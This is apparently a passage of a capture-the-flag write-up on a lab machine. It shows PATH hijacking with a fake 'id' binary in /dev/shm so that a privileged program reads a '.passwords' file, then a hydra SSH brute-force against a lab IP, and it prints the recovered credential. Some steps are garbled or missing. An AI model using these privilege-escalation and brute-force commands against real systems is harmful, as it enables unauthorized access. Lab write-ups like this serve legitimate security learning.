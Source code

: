 ```ad-summary
- Goal: We need to trick the binary into reading`.passwords`

So, in order to exploit that, we need to reproduce the following steps:


1. Modify the`$PATH` Variable:

- First, use the`id` command to generate an output and replace the username with username`think` , we can use`echo` command to replicate this:

`echo "uid=33(think) gid=33(think) groups=33(think)"`

- Create a malicious`id` binary in a directory you control (e.g.,`/dev/shm`)

$ `c ` 
$ `echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /dev/shm/id` # echoe's a uid in the context of user "think" 
$ `chmod +x /dev/shm/id`

- Adjust`$PATH` to include this directory`/dev/shm` at the beginning so that the OS will be tricked that the binary`id` is coming from`/dev/shm` :

`export PATH=/dev/shm:$PATH`
`echo $PATH`

Now that`/dev/shm` is in the **PATH** variable, we can now execute the binary:


We can use these passwords to bruteforce `think` ssh:

`hydra -l think -P passwords.txt 10.10.14.183 ssh`


We got the password!

`think`:`josemario.AKA(think)`
```

Now, let's log in to ssh as think:

![Pasted image 20241202151159.png](../../IMAGES/Pasted%20image%2020241202151159.png)

Nice, now we need a way to get into root, let's use `sudo -l` to check our permissions:

![Pasted image 20241202151236.png](../../IMAGES/Pasted%20image%2020241202151236.png)
